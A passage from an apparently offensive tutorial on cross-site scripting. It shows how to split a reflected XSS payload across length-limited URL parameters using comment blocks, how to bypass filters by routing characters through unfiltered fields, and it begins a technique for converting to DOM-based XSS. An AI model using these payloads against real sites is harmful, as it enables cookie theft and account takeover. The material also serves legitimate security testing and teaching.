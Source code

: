 Suppose:

* Each param has a tight length limit (e.g., 12 characters)
* But... *they all reflect back into the same page*

You inject:

```
?page_id="><script>/*
&seed=*/alert(document.cookie);/*
&mode=*/</script>
```

#### Final Rendered HTML:

```html
<input name="page_id" value=""><script>/*">
<input name="seed" value="*/alert(document.cookie);/*">
<input name="mode" value="*/</script>">
```

### ✅ Exploit Breakdown:

* **Comment blocks** (`/* */`) hide the junk text between your script lines.
* The only code executed is the complete:

  ```js
  <script>alert(document.cookie);</script>
  ```
* Everything in between becomes ignored comments.

---

### ⚠️ Pro Tip:

Many apps apply different filters or limits to different params. Example:

| Param    | Length Limit | XSS Filter? |
| -------- | ------------ | ----------- |
| page\_id | 12 chars     | ❌ None      |
| seed     | unlimited    | ✅ Strong    |
| mode     | 12 chars     | ❌ None      |

By strategically splitting your payload, you bypass strong filters in long fields by **relying on shorter, unfiltered fields** to deliver the dangerous characters (`<`, `>`).

---

## ✅ Technique 3: 🔁 Convert to DOM-Based XSS

### 💡 Idea:

Inject a **tiny payload** into the reflected page that reads and executes code from the **fragment/hash** portion of the URL.
